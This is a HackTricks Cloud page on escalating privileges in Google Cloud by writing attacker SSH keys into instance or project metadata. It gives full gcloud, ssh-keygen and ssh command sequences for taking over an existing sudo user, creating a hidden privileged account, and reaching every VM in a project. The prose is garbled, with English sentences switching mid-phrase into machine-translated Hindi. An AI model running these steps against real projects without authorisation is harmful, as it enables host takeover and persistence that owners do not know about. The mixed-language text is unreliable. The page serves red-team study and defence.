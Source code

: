 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **महत्वपूर्ण सुरक्षा जोखिम यदि एक हमलावर आवश्यक अनुमतियाँ प्राप्त करता है**.

#### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **नियमित रूप से जांचना** the instance metadata endpoint for **अधिकृत SSH सार्वजनिक कुंजियों के लिए अपडेट**.

Therefore, if an attacker can modify custom metadata, he could make the daemon find a new public key, which will processed and **स्थानीय प्रणाली में एकीकृत किया जाएगा**. The key will be added into `~/.ssh/authorized_keys` file of an **मौजूदा उपयोगकर्ता या संभावित रूप से `sudo` अनुमतियों के साथ एक नया उपयोगकर्ता बनाना**, depending on the key's format. And the attacker will be able to compromise the host.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.
2. **Prepare a Text File for SSH Key Metadata:**
* Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.
4. **Update the Instance's SSH Key Metadata:**
*   Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

यह संभव है कि SSH पहुँच को एक क्लाउड वातावरण में कई वर्चुअल मशीनों (VMs) तक बढ़ाया जा सके **परियोजना स्तर पर SSH कुंजी लागू करके**। यह दृष्टिकोण परियोजना के भीतर किसी भी उदाहरण तक SSH पहुँच की अनुमति देता है जिसने स्पष्ट रूप से परियोजना-व्यापी SSH कुंजी को अवरुद्ध नहीं किया है। यहाँ एक संक्षिप्त मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजी लागू करें:**
*   `gcloud compute project-info add-metadata` कमांड का उपयोग करके `meta.txt` से SSH कुंजी को परियोजना के मेटाडेटा में जोड़ें। यह क्रिया सुनिश्चित करती है कि SSH कुंजी परियोजना में सभी VMs के बीच मान्यता प्राप्त हैं, जब तक कि किसी VM में "ब्लॉक प्रोजेक्ट-व्यापी SSH कुंजी" विकल्प सक्षम नहीं है।

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **परियोजना-व्यापी कुंजी का उपयोग करके उदाहरणों में SSH करें:**
* परियोजना-व्यापी SSH कुंजी लागू होने के साथ, आप परियोजना के भीतर किसी भी उदाहरण में SSH कर सकते हैं। जो उदाहरण परियोजना-व्यापी कुंजी को अवरुद्ध नहीं करते हैं, वे SSH कुंजी को स्वीकार करेंगे, जिससे पहुँच प्राप्त होगी।
* किसी उदाहरण में SSH करने का एक सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई SSH कुंजी का उपयोग करके पहुँच प्राप्त करने का प्रयास करता है।

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
